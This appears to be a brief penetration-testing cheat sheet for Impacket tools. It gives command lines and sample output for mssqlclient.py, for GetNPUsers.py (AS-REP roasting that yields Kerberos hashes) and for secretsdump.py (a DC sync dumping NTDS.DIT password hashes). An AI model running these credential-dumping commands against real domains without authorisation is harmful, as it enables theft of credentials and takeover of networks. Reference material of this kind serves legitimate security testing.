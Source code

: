 <a href="https://github.com/SecureAuthCorp/impacket/releases/">Impacket</a>

# mssqlclient.py
```
mssqlclient.py OPTIONALHOSTNAME/user@x.x.x.x -windows-auth

An MSSQL client
```

# GetNPUsers.py
```
GetNPUsers.py domain.com/ -dc-ip x.x.x.x -request

Name MemberOf PasswordLastSet LastLogon UAC
$krb5asrep$23$user@domain.com:Ticket
```

# secretsdump.py
```
secretsdump.py domain.com/user:password@dc.domain.com

DC sync to dump NTDS.DIT secrets
User:500:aad3b435b51404eeaad3b435b51404ee:aad3b435b51404eeaad3b435b51404ee:::
```
